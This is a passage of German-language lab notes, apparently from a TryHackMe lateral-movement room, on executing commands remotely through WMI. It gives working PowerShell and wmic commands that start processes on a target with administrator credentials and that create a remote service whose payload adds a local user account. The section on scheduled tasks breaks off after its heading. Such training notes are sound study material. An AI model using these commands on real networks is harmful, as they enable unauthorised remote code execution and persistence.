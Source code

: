 ```bash
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```
Beachte bitte, dass WMI keinen Output ausgibt und den Prozess "leise" ausführt. Auf älteren Systemen lautet der Befehl:

```bash
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

### Creating Services Remotely with WMI

- Ports:
> 135/TCP, 49152-65535/TCP (DCERPC)
5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

Wir können auch Services mit WMI über die Powershell erstellen. Um einen Prozess mit dem Namen THMService2 zu erstellen, nutzen wir folgenden Befehl:

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

Danach können wir den Service folgendermaßen starten:

```bash
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Um den Service wieder zu beenden geben wir folgendes ein:

```bash
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Schweduled Tasks Remotely with WMI

- Ports:
>135/TCP, 49152-65535/TCP (DCERPC)
5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators
